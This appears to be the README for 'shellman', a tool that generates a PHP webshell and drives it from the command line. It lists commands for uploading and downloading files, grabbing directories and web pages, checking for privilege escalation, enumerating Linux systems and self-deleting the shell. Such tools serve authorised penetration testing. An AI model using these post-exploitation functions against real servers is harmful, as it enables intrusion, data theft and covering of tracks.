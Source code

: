 shellman
========

Use a php webshell to get a bash like shell session with extras.

Dependancies
========
Terminal colors:

	pip install termcolor

Usage
========
First of all, generate your PHP shell with:

	./shellman.py -g

Upload your shell to the server and connect with:

	./shellman -u example.com/shell.php

Files can be uploaded with:
	
	upload full/path/to/local/file (remotefile)

(if you dont specify remotefile, it will be uploaded to your current pwd)
	
Files can be downloaded with:
	
	download remotefile (full/path/to/local/file)

(if you dont specify full/path/to/local/file, it will be downloaded to /tmp)

Download the contents of a directory recursively:

	getdir remotedir

Download all webpages:

	getpages

Test local kernel version for priv-esc thanks to Bernardo Damele A. G. :
	
	getprivs

Basic linux enum:

	getenum

Self-Destruct PHP Shell

	selfdestruct

Text editors vi, nano and pico can be used to edit files on the remote server in the normal way:

 	vi index.php
 	nano index.php
 	pico index.php
 	emacs index.php
	
Shellman can be tested by putting shell.php in /var/www and starting apache.
if you don't specify a url the software will assume testing and connect to http://localhost/shell.php 

	usage: ./shellman.py -u URL

	optional arguments:
	  -h, --help         show this help message and exit
	  -u URL, --url URL  PHP Shell URL
	  -g, --generate     Generate PHP shell and password

	extra commands:
	  upload        - upload a file
	  download	    - download a file
	  getprivs      - priv-esc checker
	  getenum       - basic linux enum
	  getpages      - download all webpages
	  getdir        - download a directory recursively
	  selfdestruct  - delete php shell
	  c or clear    - clear the screen
	  e or exit     - exit shellman
